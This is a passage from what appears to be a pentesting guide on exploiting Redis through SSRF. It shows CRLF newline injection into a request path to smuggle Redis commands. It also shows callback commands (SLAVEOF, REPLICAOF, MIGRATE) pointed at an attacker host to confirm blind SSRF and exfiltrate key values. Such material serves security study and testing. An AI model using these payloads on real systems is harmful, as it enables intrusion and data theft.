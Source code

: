 1. The **request method** itself, the first thing it sees. If we simply make this a GET request (a default redis command), it won't quit and by inserting `\r\n` newline characters we may even be able to insert more commands
2. The **location** (path) of the request, right after the method. If we are able to insert newline characters here you can write more commands. Note that this is impossible for POST requests as they quit early
3. **Extra headers** before the `Host:` header, which may have newline injection possibilities or, because the name is the start of a line, the name can be a command by itself

<pre class="language-http" data-title="Example"><code class="lang-http">Injection into the path with newlines:
<strong>/endpoint%0d%0aKEYS *%0d%0a
</strong>
<strong>GET /endpoint
</strong><strong>KEYS *
</strong><strong>HTTP/1.1
</strong>Host: ...
</code></pre>

### Detection: Callbacks

For **Blind SSRF** scenarios where you are unsure about the backend, and if it is vulnerable, you can try to generate a simple callback to yourself to confirm that you are executing Redis commands. These expect to interact with another Redis server that you can set up, but will also simply connect and send data to a simple `nc` listener that you make. Here are some ways:

```powershell
# Turn server into a "replica" of master (commands are equivalent)
SLAVEOF [HOST] [PORT]
REPLICAOF [HOST] [PORT]

# Set and exfiltrate a key
SET key1 "test"
MIGRATE [HOST] [PORT] key1 0 5000
```

### Exploitation

See [Enumeration](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#manual-enumeration) for examples where you directly receive a response, as well as some RCE techniques further down the page. With an active system the [`MONITOR`](https://redis.io/commands/monitor/) command can also give good information about incoming queries and writes.

**Without a response,** there are still some powerful things you can leak. Above we saw some ways of detecting a callback to your server, but the [`MIGRATE`](https://redis.io/commands/migrate/) command is very powerful for this. It sends the _value of a key_ to _your server_, which can be after you perform some complex commands and saving a result in such a key! This way we can exfiltrate data and responses as if we were interacting directly.&#x20;

For the cleanest output, simply set up a simple Redis server, for example with docker:

```bash
docker run -p 6379:6379 --name redis-listener -d redis
```
